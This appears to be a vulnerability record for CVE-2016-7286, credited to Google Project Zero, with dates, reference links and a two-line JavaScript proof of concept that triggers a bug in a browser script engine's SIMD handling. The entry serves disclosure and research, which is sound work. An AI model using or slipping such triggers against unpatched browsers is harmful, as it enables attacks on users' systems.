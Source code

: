 # CVE-2016-7286

- Report: Dec 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var v = SIMD.Int32x4(1, 2, 3, 4);
v.toLocaleString(1, 2, 3, 4)
```

## Reference

- [Microsoft](http://technet.microsoft.com/security/bulletin/MS16-145)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=961)
